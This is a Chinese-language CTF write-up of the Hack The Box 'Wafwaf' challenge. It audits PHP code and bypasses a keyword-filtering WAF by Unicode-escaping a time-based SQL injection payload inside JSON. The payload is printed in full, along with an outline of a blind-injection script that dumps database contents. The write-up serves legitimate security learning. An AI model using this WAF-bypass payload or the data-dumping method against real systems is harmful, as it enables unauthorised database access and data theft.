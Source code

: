 ```yaml
---
title: "Hack the Box——Wafwaf"
date: 2020-09-15T18:23:03+08:00
showDate: true
draft: false
tags: ["security","hack the box", "ctf"]
categories: ["security"]
---
```


## 0x00

Wafwaf

## 0x01 初探

访问界面，简单明了，直接给了源码

![1.png](1.png)

那显然是要代码审计了。

简单看下代码，流程就是`从php://input获取数据`=>`waf函数验证是否有非法字符`=>`解析json数据`=>`执行sql`

## 0x02 分析

看了代码我觉得有问题的地方有

* 没过滤全sql关键字，还可以注入

* preg_match_all函数可能有问题，可能可以通过某种输入绕过正则

* php://input可能有漏洞

* json_decode函数可能有漏洞

## 0x03 寻找答案

带着可能出现的问题，一个一个去搜索

关于sql绕过的，看到了很多新姿势，但是基本没有绕过小括号`(`的，有两个可以绕过的。

* 一个是利用的`ORDER BY`,但是这个的by被注释了。

* 还有一个通过笛卡尔积来造成慢查询，类似于盲注，但是这里`in`也被过滤了，`join`就自然没法用了。

还有很多绕过的姿势，但是过滤这么多关键字的基本没有了，卒。

然后是关于preg_match_all函数，这个也有一些漏洞。

* 比如preg_match会绕过数组的匹配，也就是如果参数传入数组会直接返回false，但是在这道题是先读取字符串再过滤再解析json，所以并不可行。

* 还有是正则匹配回溯最大次数限制的，就是如果用的贪婪匹配`.*`，然后传入的字符过多超过回溯次数会返回false。但是这题也没有用贪婪匹配，卒。

同样，php伪协议也没有找到什么可行的漏洞。

最后一个是json_decode，这个函数一直是被我忽略的，因为尝试了在被过滤的字符串中插入`00`,`0a`这种来绕过正则检测，结果插入之后连json都没解析出来，就没再这方面想了。

## 0x04 找到答案

但是经过不断的搜索，我在[浅谈json参数解析对waf绕过的影响](https://xz.aliyun.com/t/306)这篇文章的评论区看到了一段代码，这下有种茅塞顿开的感觉

```
$json = '{"id":"\u6211\u7684\u0074\u0074\u0074\u0074"}';
var_dump(json_decode($json));
```

输出
```
object(stdClass)#1 (1) {
  ["id"]=>
  string(10) "我的tttt"
}
```

当输入的字符串中有unicode，用json_decode函数解析出来会解析回utf-8的字符串。

那是不是我这边把unicode作为输入传过去就不会被正则检测到并且还能解析出来了呢。

因为没有回显没有报错，只能试试基于时间盲注的payload

```
{
    "user": "\u0027\u0075\u006e\u0069\u006f\u006e\u0020\u0073\u0065\u006c\u0065\u0063\u0074\u0020\u0073\u006c\u0065\u0065\u0070\u0028\u0031\u0030\u0029\u0023"
}
```

这里的unicode代表的utf-8字符串为`'union select sleep(10)#`

用postman测了下，时间大于了10s

![2.png](2.png)


## 0x05 解决问题

理论上应该可以用sqlmap自定义tamper去跑的，但是这里我用的是自己写盲注脚本，花了我一晚上的时间。

```
# coding: utf-8
proxies = {
    "http": "http://127.0.0.1:8080"
}
SLEEP_TIME = 1

def make_payload_text(payload): // 构造payload（转unicode字符串）
    return text

def request_server(text): // 请求服务器返回响应时间
    return spend_time

def guess_text(payload: str, text_length=10, sleep_time=SLEEP_TIME): // 猜字符串内容
    return guess_text

def guess_length(payload, sleep_time=SLEEP_TIME): // 猜字符串长度
    return v

def guess_database(): // 猜数据库名
    return text

def guess_tables(database): // 猜表名
    # db_m8452
    return tables

def guess_table_col(table): // 猜列名
    return columns

def guess_data(table, columns): // 猜数据
  return data

if __name__ == '__main__':
    db = guess_database()
    tables = guess_tables(db)
    data = {}
    for table in tables:
        columns = guess_table_col(table)
        data_list = guess_data(table, columns)
        data[table] = {
            "columns": columns,
            "data": data_list
        }
    print(data)
```

这套代码如果以后遇到基于时间的盲注还可以复用，也不算太浪费吧。

最后脚本跑出来的结果

![3.png](3.png)

0x06 总结

因为一开始对这题没有任何思路，所以一直在google和百度，但是都没有找到解决办法，但是也乘机见识了很多新的姿势，比如各种绕过，还有那个最大回溯攻击等等。也不算太亏吧。